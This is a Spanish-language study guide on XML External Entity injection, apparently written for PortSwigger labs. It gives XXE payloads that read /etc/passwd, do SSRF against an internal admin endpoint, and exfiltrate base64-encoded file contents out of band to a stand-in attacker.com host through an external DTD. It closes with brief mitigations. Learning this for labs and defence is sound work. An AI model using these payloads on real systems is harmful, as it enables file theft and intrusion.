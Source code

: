 ***MATERIAL DE AYUDA EN XXE PORTSWIGGER***

![[Pasted image 20250325170914.png]]
# **XML External Entity Injection (XXE)**

## 🏗 **Estructura de un ataque XXE**

La inyección de entidades externas en XML permite **leer archivos**, **realizar SSRF** y, en algunos casos, incluso ejecutar comandos en el sistema.

📌 **Ejemplo de una carga XXE simple:**

xml



`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [   <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <root>   <data>&xxe;</data> </root>`

📌 **Salida esperada:** Si el servidor es vulnerable, puede responder con el contenido de `/etc/passwd`.

---

## 🕵️‍♂️ **XXE OOB (Out of Band) - A ciegas**

No siempre se puede ver el output directamente en la respuesta. En esos casos, se usa **OOB XXE**, donde el atacante **exfiltra información a un servidor externo**.

### 🔗 **Ejemplo con una DTD externa para exfiltrar datos**

📌 **Payload en la petición XML:**

xml



`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [   <!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd">   %xxe; ]> <Profesores>   <Nombre>Kenzy</Nombre>   <Edad>26</Edad>   <Rol>LAMMER</Rol> </Profesores>`

📌 **Contenido del archivo `malicious.dtd` en el servidor atacante (`attacker.com`)**

xml



`<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?file=%file;'>"> %eval; %exfil;`

👉 **Explicación:**

1. Se usa `php://filter/convert.base64-encode/resource=/etc/passwd` para leer y codificar el archivo en base64.
    
2. Luego, el contenido exfiltrado se envía a `http://attacker.com/?file=[DATA]`.
    

---

## 🎯 **SSRF a través de XXE**

Un ataque **SSRF (Server-Side Request Forgery)** puede ejecutarse mediante XXE al hacer que el servidor vulnerable realice solicitudes a **servicios internos**.

### 🔥 **Ejemplo de XXE → SSRF**

📌 **Carga XXE para hacer una petición HTTP interna:**

xml

CopiarEditar

`<!DOCTYPE foo [   <!ENTITY xxe SYSTEM "http://localhost:8080/admin"> ]> <root>   <data>&xxe;</data> </root>`

👉 **Si el servidor tiene acceso a `localhost:8080/admin`, la respuesta puede filtrarse.**

### 📌 **Variantes con FTP y `file://`**

xml

CopiarEditar

`<!DOCTYPE foo [   <!ENTITY xxe SYSTEM "ftp://attacker.com/malware"> ]> <root>   <data>&xxe;</data> </root>`

📌 Esto puede usarse para **exfiltrar credenciales** de ciertos servicios.

---

## 🔐 **Mitigaciones**

Para protegerse de XXE, se recomienda:  
✅ **Deshabilitar entidades externas en el parser XML.**  
✅ **Usar bibliotecas seguras** como `defusedxml` en Python.  
✅ **Aplicar WAFs y monitorear tráfico HTTP saliente.**

---

### 📜 **Conclusión**

- XXE permite leer archivos, hacer SSRF y exfiltrar datos.
    
- XXE OOB (Out of Band) ayuda cuando la respuesta no se muestra directamente.
    
- El uso de **DTD externas** permite hacer ataques más avanzados.
    
- **Mitigarlo implica restringir el acceso a entidades externas en XML.**